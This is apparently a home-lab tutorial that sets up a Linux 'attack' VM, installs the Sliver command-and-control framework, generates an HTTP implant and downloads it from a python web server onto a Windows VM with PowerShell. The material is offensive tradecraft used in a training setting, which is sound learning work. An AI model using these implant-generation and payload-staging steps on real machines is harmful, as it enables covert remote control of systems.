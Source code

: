 ## Ubuntu Config


#### Set a static IP during the install (IPv4 Manual Config)
		Set a username && password
		name: user
		server name: attack
		Username: user
		Password: password
		
		Install OpenSSH server
			check / yes
		
		Continue Installing until it's complete
		Showing [Reboot now] then hit enter and Reboot
		
		After reboot check connectivity
			login with credentials
		
		check DNS outbound pings work
			ping -c 3 google.com
		
		if you see the icmp 3 times your good to go


#### Setup Attack System (Linux VM)



	Since im on a MacOS in goint to SSH into the Linux VM from 
	my terminal. I do this because I can copy and paste as well as 
	scroll and look at output whereas on the VM itself once the 
	words have left the screen there is now way for me to bring 
	them back down.
	
	
	Open up a terminal and ssh into the machine
	
		ssh user@ipaddress-of-vm
	
	
	Inside the session proceed to setup the attacker c2 server
	switch root user
	
		sudo su
	
	
	Now we want to download Sliver a Command & Control c2 framework
	By: BishopFox
	You can copy & paste or type it in if you know what your doing
	
	# Download Sliver Linux server binary
	
	wget https://github.com/BishopFox/sliver/releases/download/
	v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
	
	
	# Make it Executable
	
	chmod +x /usr/local/bin/sliver-server
	
	
	# Install mingw-w64 for additional capabilities
	
	apt install -y mingw-w64
	
	
	We need a working Directory for future steps
	
		mkdir -p /opt/sliver
	
	
	
	### Explore these menu options and become familar with them
	
	Timeline (saves an extra 2-3 hours setting up other VMs)
	Processes (Real-time list of process activity)
	Network (Real time list active connections & listening ports)
	File System (Browse entire file system)



#### Generate C2 Payload


	On the Linux Terminal Change into Root if not already
		sudo su
	
	Then change Directory
		cd /opt/sliver
	
	
	Launch Sliver server
		sliver-server
	
	
	Generate a C2 session payload (inside the Sliver shell)
		generate --http linux-ipaddress --save /opt/sliver
		
		take note of the unique output file
	
	
	Confirm the configuration of the new implants
		impants
		
	
	We have a payload we can drop on our Windows VM for now exit
		exit
	
	
	To Download the C2 payload from the Linux to the Windows VM
	We can use a python trick to spin up a temporary web server
	
	Change into the opt sliver Directory
		cd /opt/sliver
	
	Spin up the python server
		python3 -m http.server 80
	
	
	In the Windows VM open an Admin PowerShell console
	Download the C2 payload from the Linux VM to the Windows
	
	IWR -Uri http://linux-ipaddress/payload-name.exe -OutFile
	C:\Users\User\Downloads\payload-name.exe
	
	Take a snapshot of Windows VM before staging the malware
		name Snapshot "Malware staged" or something similar
	
	
	
#### Start C2 Command and Control Session